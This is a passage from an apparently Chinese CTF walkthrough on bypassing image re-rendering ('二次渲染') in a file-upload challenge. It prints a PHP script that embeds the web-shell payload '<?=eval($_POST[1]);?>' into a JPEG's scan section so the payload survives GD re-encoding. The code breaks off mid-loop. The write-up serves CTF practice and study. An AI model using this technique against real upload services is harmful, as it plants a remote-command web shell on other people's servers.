 ![](https://i-blog.csdnimg.cn/blog_migrate/0f62ccd7c7a927bdda4d4c4da7fd619e.png)

我们想要查看的图片被包含进入了download.php文件

##### 165关：二次渲染

和上一关一个套路，只不过这次是jpg

```
<?php
    $miniPayload = "<?=eval(\$_POST[1]);?>";

    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
    set_error_handler("custom_error_handler");
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
```